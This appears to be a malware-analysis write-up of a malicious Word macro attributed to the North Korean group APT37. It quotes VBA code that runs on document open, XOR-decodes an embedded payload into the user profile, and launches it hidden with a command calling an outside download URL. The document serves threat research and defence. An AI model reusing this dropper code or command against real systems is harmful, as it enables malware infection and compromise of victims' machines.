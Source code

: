 ## APT 37 strike again ?
## Table of Contents
* [Malware analysis](#Malware-analysis)
* [Cyber kill chain](#Cyber-kill-chain)
* [Indicators Of Compromise (IOC)](#IOC)
* [References MITRE ATT&CK Matrix](#Ref-MITRE-ATTACK)
* [Links](#Links)
  + [Original Tweet](#tweet)
  + [Link Anyrun](#Links-Anyrun)
  + [Articles](#Articles)

<h2>Malware analysis <a name="Malware-analysis"></a></h2>
<h6>The initial vector is an maldoc with a macro. This launches an auto-open method for decrypt the next stager, save it and execute it in push as argument the URL to contact. This saves the modification on the document for avoiding to be executing a second time by the victim.</h6>

```vb
Private Sub Document_Open()
    Dim n As Long
    Dim cLine As String
    Dim path As String
    If Image1.Width > 2 And Image1.Height > 2 Then
        Image1.Width = 1
        Image1.Height = 1
        Image2.AutoSize = True
        With ActiveDocument.Content
            .Font.ColorIndex = wdBlack
        End With
        path = save2file()
        cLine = "cmd /c cd /d %USERPROFILE% && ren up.txt up.exe && up http://mydownload-202001.c1.biz"
        n = Shell(cLine, vbHide)
    End If
    ActiveDocument.Save
End Sub
```

<h6>The called method parsed the data and xor by a common value used by North Korean ATP (0XFF). This saves the result on a file on the user profile executing the payload.</h6>

```vb
Function save2file() As String
    Dim nIndex As Long
    Dim path As String
    Dim vbuffer As String
    Dim output() As String
    path = Environ("USERPROFILE")
    path = path & "\up.txt"
    vbuffer = "B2&A5&6F&FF&FC&FF&FF&FF&FB&FF&FF&FF&00&00&FF&FF&47&FF&FF&FF&FF&FF&FF&FF&BF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF"
    [...]
    vbuffer = vbuffer + "88&8C&8F&8D&96&91&8B&99&BE&FF&FF&FF&A9&9A&8D&AE&8A&9A&8D&86&A9&9E&93&8A&9A&A8&FF&FF&FF&6F&FF&FF&F3&FF&FF&FF&1D&C6&27&C4&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF&FF"
    output = Split(vbuffer, "&")
    Open path For Binary As #1
    For nIndex = LBound(output) To UBound(output)
        Put #1, , CByte(("&H" & output(nIndex)) Xor &HFF)
    Next nIndex
    Close #1
    save2file = path
End Function
```
